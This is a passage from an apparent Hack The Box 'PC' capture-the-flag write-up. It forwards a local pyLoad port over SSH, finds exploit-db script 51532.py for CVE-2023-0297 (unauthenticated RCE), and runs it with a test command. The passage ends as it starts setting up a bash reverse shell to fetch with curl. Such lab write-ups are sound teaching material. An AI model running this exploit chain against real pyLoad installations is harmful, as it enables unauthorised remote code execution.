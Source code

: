 We've confirmed it's a web service. Let's forward this local port 8000 to our attacker machine. We'll open a new tab on our attacker machine and run the following SSH command to connect via SSH again as well as set up local port forwarding. This will allow us to access the service in our web browser on our attacker machine

```bash
ssh -L 8000:127.0.0.1:8000 sau@10.10.11.214
```

Now let's navigate to `http://127.0.0.1:8000 / http://localhost:8000`

![pyLoad Web Interface](/assets/images/HTB%20-%20PC/Pyload%20web%20interface.png)

Let's see if we can find the version of this application. Checking the HTML source code doesn't provide anything of value. Unfortunately, the config file for pyLoad is located on the roots home directory, which we can't access. Let's check searchsploit for any exploits relating to pyLoad

```bash
searchsploit pyLoad
```

![searchsploit pyload](/assets/images/HTB%20-%20PC/Searchsploit%20Pyload.png)

We find one, let's go ahead and copy the exploit script to our current directory

```bash
cp /usr/share/exploitdb/exploits/python/webapps/51532.py .
```

Doing a bit of research to get a high-level overview of this exploit tells me it's a unauthenticated RCE that takes advantage of the `/flash/addcrypted2` endpoint in PyLoad's API. This end point of the applications API does not sanitize user input.

 This script first sends a get request to check if the host is alive. If alive it then  sends a POST with the malicious python  payload

[CVE-2023-0297](https://nvd.nist.gov/vuln/detail/CVE-2023-0297)
```
API: PyLoad API
  ├── Endpoint: /flash/addcrypted2   <- Vulnerable Endpoint
  ├── Endpoint: /login
  ├── Endpoint: /addPackage
  └── Endpoint: /startDownload
```

Let's run the script

```bash
python3 51532.py -u http://localhost:8000 -c "whoami"
```

We get the following message back `[+] Host up, let's exploit!
[+] The exploit has be executed in target machine.` which indicates that the script is working

Let's create a bash reverse shell on our machine. We'll curl it using our exploit script

```bash
gedit rev.shell
```

